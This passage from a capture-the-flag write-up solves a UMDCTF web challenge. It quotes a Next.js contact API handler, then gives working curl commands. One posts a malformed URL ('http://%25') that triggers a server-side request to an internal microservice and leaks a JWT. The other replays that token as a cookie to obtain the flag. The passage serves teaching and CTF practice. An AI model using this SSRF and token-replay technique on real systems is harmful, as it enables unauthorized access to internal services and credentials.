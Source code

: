```js:pages/api/contact.ts
      return res.status(200).json({ status: 'success', body: `${process.env.DEF}`});
    }

    // Perform fetch request
    return fetch(`${u.protocol}//${t}`, {method: 'GET'})
        .then((r) => r.text())
        .then((b) => res.status(200).json({ status: 'success', body: b.substring(0, b.length < 20000 ? b.length : 20000)}))
        .catch((e => {res.status(200).json({ status: 'success', body: 'UNDEF' }); console.log(e)}));
  }
}
```
Reading this code, we realize that in order to reach the microservice, we simply have to POST a request on `/api/contact` and provide a crafted URL inside the `message` parameter. This URL should not be a valid URL so the application returns false on `await lookup(u.hostname)).address` and uses `process.env.MICROSERVICE` as the target URL.

To do so, we simply use a payload like `http://%25` and get the JWT token.

```shell
$ curl -X POST https://customer-support-p558t.ondigitalocean.app/api/contact -d "name=test&email=test@test.com&subject=test&message=http://%25"
$ {"status":"success","body":"\"{\\\"token\\\":\\\"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IlVNRENURiIsImIiOiJUb2RheSBJIHdpbGwgbGl2ZSBpbiB0aGUgbW9tZW50LCB1bmxlc3MgaXQgaXMgdW5wbGVhc2FudCwgaW4gd2hpY2ggY2FzZSwgSSB3aWxsIGVhdCIsImlhdCI6MTcxNjIzOTAyMn0.7SoLIpd9dL9d3Lx84vbAqlLCE5rR3fWqN8ZWLx41QDE\\\"}\""}
```
Bingo, the next step is to try out this token on the main application. Making a GET request on `/api/auth` and using the correct format on the cookie (`Authorization=Bearer JWT_TOKEN`), we get the flag.

```shell
$ curl https://customer-support-p558t.ondigitalocean.app/api/auth --cookie "Authorization=Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IlVNRENURiIsImIiOiJUb2RheSBJIHdpbGwgbGl2ZSBpbiB0aGUgbW9tZW50LCB1bmxlc3MgaXQgaXMgdW5wbGVhc2FudCwgaW4gd2hpY2ggY2FzZSwgSSB3aWxsIGVhdCIsImlhdCI6MTcxNjIzOTAyMn0.7SoLIpd9dL9d3Lx84vbAqlLCE5rR3fWqN8ZWLx41QDE"
$ {"status":"success","body":"UMDCTF{REDACTED}"}
```

🏁 __UMDCTF{I_b3t_th@t_c00kie_t4sted_g00d_d!dnt_it!U4L_p4rs1ng_suck5}__{:.spoiler}
